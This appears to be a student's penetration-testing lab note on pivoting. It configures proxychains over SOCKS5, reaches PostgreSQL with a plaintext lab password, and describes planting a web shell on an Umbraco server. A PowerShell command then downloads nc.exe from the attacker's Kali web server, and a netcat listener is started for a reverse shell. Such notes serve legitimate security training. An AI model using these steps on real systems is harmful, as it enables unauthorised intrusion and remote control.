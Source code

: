 ```hlt:10
kali@kali:~$ tail /etc/proxychains4.conf             
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998
```

Use #psql through #proxychains to connect to PostgreSQL as `postgres` user with password `D@t4basePassw0rd!`

````
kali@kali:~$ proxychains psql -h 10.4.50.215 -U postgres
````

List databases:

```
postgres=# \l
```


### Plink
Command line tool that functions like OpenSSH client (no remote dynamic port forwarding)

#### Scenario
MULTISERVER03 behind a firewall, with only port 80 exposed
We can create remote port forward with #plink

Initial access to MULTISERVER03 by uploading web shell to `/umbraco/forms.aspx`

Use webshell to download `nc.exe` to MULTISERVER03 from Kali's Apache2 service. 

Starting Apache2

```
kali@kali:~$ sudo systemctl start apache2
```

Locate `nc.exe` and copy to Apache2 webroot

```hlt:1,4
kali@kali:~$ find / -name nc.exe 2>/dev/null
/usr/share/windows-resources/binaries/nc.exe

kali@kali:~$ sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```

Download `nc.exe` to MULTISERVER03

```
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
```

Set up nc listener
```
nc -nvlp 4446
```
